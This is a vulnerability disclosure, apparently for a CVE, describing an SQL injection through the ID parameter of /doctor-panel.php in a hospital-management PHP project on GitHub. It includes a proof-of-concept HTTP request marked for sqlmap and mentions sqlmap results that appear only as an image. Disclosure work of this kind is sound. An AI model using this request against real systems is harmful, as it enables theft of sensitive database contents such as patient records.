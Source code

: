 # ponaravindb/Hospital-Management - System sql injection in /doctor-panel.php
# Supplier
https://github.com/ponaravindb/Hospital-Management-System
# Description
An unrestricted SQL injection attack exists in ponaravindb-Hospital-Management-System in /doctor-panel.php The parameters that can be controlled are as follows: $ID. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
# Code analysis
When the value of $ID parameter is obtained in /doctor-panel.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability.![image](https://github.com/user-attachments/assets/f8bce646-57bb-48f7-a039-e7726bb3d5c2)

# PoC
```
GET /doctor-panel.php?cancel=1&ID=1* HTTP/1.1
Host: hospital-management-system-master
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101
Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=go9un4j5krlradoci4pk1icb3h
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
# Result
utilizing sqlmap
![image](https://github.com/user-attachments/assets/ecf792bc-d1de-4461-ad45-044b31ba4527)
